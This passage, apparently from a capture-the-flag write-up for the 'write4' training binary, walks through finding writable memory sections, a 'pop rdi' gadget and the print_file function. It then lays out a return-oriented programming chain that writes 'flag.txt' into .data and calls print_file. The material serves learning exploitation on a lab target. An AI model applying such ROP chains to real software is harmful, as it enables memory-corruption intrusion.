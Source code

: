 This provides a perfect gadget to populate the write gadgets with whatever value we want. 

The question now is where to write our string to the binary. So we are going to use the `vmmap` cmd to look at what parts of the memory is writable

```
Looking at the perms on parts of the code we see the following areas are able to be written to
nth paddr        size vaddr       vsize perm name
―――――――――――――――――――――――――――――――――――――――――――――――――
18  0x00000df0    0x8 0x00600df0    0x8 -rw- .init_array
19  0x00000df8    0x8 0x00600df8    0x8 -rw- .fini_array
20  0x00000e00  0x1f0 0x00600e00  0x1f0 -rw- .dynamic
21  0x00000ff0   0x10 0x00600ff0   0x10 -rw- .got
22  0x00001000   0x28 0x00601000   0x28 -rw- .got.plt
23  0x00001028   0x10 0x00601028   0x10 -rw- .data
24  0x00001038    0x0 0x00601038    0x8 -rw- .bss
```

Note: the above is trimmed to only show the writable sections

The string is "flag.txt" which is 9 bytes long (including the null byte) which gets rid of a couple of the sections. So I chose the .data section of the binary to write into. 

The last gadget we'll need is something to control rdi for the parameter pass to the print_file

```
pwndbg> ropper -- --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: /root/working/write4/write4_64/write4
0x0000000000400693: pop rdi; ret; 
```

Finally let's find the print_file function mentioned in the description.
```
disass print_file
Dump of assembler code for function print_file@plt:
   0x0000000000400510 <+0>:     jmp    QWORD PTR [rip+0x200b0a]        # 0x601020 <print_file@got.plt>
   0x0000000000400516 <+6>:     push   0x1
   0x000000000040051b <+11>:    jmp    0x4004f0
End of assembler dump.
```

Now with all of the information let's craft our stack layout. 

```
         | stack          |
         | -------------- |
32 bytes | start buffer   |
8  bytes | base pointer   | 
8  bytes | pop_r gadget   | # gadget to get values into r14 and r15
8  bytes | write loc      | # place location to write into r14
8  bytes | "flag.txt"     | # 1st 8 bytes of the string
8  bytes | write gadget   | # gadget to write into memory
8  bytes | pop_r gadget   | # do all of that again for the final null byte
8  bytes | "\x00"         | #     Note: bytes after may be init to null 
8  bytes | write loc + 8  | #           so you don't have to do this one
8  bytes | write gadget   |
8  bytes | pop_rdi gadget | # place location of the sring in rdi for 1st param
8  bytes | write loc      | 
8  bytes | print_file loc | # call function to win
8  bytes | -------------- |

```
